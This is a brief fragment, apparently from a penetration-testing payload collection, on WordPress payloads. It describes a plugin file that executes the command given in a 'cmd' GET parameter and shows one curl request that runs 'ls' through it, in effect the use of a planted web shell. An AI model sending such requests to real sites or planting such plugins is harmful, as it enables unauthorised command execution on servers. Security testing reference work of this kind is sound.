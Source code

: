 # Wordpress Payloads
Executes the command in the `cmd` get parameter.

```bash
curl http://example.com/wp-content/plugins/getin/index.php?cmd=ls
```

